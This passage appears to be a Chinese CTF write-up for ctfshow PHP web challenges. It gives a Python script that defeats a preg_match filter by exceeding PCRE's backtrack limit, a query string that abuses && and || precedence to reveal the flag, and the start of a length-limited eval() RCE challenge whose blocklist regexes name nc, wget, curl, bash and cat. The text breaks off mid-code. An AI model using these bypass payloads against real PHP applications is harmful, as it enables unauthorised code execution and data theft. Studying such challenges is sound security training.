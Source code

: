 > very very very（省略25万个very）ctfshow

> 考点是 利用正则最大回溯次数绕过
> PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
> **回溯次数上限默认是 100 万**。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false。
>
> 这样我们就可以绕过第一个正则表达式了。

```python
import requests
from urllib.parse import quote,unquote
url = "http://70ca4101-fcf7-4dfd-9820-597ca6dcc16f.challenge.ctf.show/"
r = requests.post(url,data={'f':"aaaa"*250000+"36Dctfshow"})
print(r.text)
```

## 132-&&和||

> 访问/robots.txt,之后访问/admin，获得源代码
>
> 1. 对于“与”（&&） 运算： x && y 当x为false时，直接跳过，不执行y； 
> 2. 对于“或”（||） 运算 ： x || y 当x为true时，直接跳过，不执行y。

```php
if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
    }
}
```

> 如hint所说，这里主要是&&和||共用时的优先级问题
> `if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin")`
>
> 先是&&：`$code === mt_rand(1,0x36D) && $password === $flag`判断为false，然后就判断`false || $username ==="admin"`
> 从而符合判断，再令code=admin即可得到flag

```
?username=admin&password=&code=admin
```

## 133、135-限制长度的无回显rce

```php
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}

# 135
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
```